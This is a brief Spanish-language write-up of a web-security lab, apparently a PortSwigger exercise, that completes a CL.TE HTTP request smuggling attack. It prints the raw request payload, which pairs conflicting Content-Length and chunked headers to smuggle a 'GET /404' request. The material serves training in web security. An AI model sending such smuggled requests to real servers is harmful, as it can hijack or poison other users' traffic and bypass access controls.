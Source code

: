 En esta clase finalizamos el laboratorio dedicado a la vulnerabilidad de HTTP request smuggling basada en CL.TE. Tras haber confirmado el comportamiento anómalo del servidor en las clases anteriores, aquí completamos la explotación para lograr el objetivo final del laboratorio.

Utilizamos el mismo punto vulnerable para smugglear una petición maliciosa que se interpretará de forma distinta entre el frontend y el backend, provocando que una solicitud aparentemente inocua desencadene una respuesta inesperada. Este ataque demuestra cómo un atacante podría manipular el flujo de peticiones HTTP para obtener acceso no autorizado o interferir con otros usuarios, cerrando así el ciclo completo de explotación de esta técnica.

Solucion
entonce conociendo el payload vamos a realizar el ataque
(POST / HTTP/1.1

Host: 0a11006e04c3862f83d5509600060068.web-security-academy.net

Content-Type: application/x-www-form-urlencoded

Content-Length: 35

Transfer-Encoding: chunked



0



GET /404 HTTP/1.1

X-Ignore: X)

**==Nota: Tenemos que tener cuidado con los espacios==**
una vez aplicado le damos send y incistimos hasta que nos de el error 404
![Pasted_image_20250806195655.png](Imagenes/Pasted_image_20250806195655.png)

